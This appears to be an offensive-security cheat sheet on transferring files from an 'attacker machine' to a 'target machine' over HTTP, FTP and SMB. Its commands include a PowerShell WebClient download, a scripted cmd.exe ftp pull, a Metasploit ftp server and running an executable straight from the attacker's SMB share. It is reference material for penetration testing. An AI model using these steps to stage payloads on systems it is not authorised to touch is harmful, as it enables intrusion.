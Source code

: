# File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

```text
http://your_ip_address:your_port_num/filename
```

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "\(new-object System.Net.WebClient\).DownloadFile\('\[[http://your\_ip\_address:your\_port\_num/filename','C:\Users\dest\_path\file\_name](http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name)\]'\)"

or use cmd.exe to trigger IE

```text
cd Program Files\Internet Explorer start iexplore.exe "http://ip_address/file"
```

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

```text
apt-get install python-pyftpdlib
python -m pyftpdlib -p [port_num]
```

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

```text
use auxiliary/server/ftp
set FTPROOT /root/shells
exploit
```

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

```text
echo open your_ip_address > ftp_commands.txt  
echo your_username >> ftp_commands.txt  
echo your_password >> ftp_commands.txt  
echo binary >> ftp_commands.txt  
echo get your_file >> ftp_commands.txt  
echo bye >> ftp_commands.txt  
ftp -s:ftp_commands.txt
```

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient

> `smbclient -L [your ip address] --no-pass`

**On target machine**:

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB `\\[your ip address]\file.exe`

### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share \(Drive MAP\):

`NET USE [driveletter:] \\ComputerName\ShareName`

\(replace \[driveletter:\] with the drive letter you want to assign\).

### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration

```text
[sharedname]
path = [path to share]
available  = yes
valid users = [current user]
read only = no
browsable = yes
public = yes
writable = yes
```

Add user and password `smbpasswd -a [current user]`

List user `pdbedit -L`

Restart SMB service `service smb restart`

or

`sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows

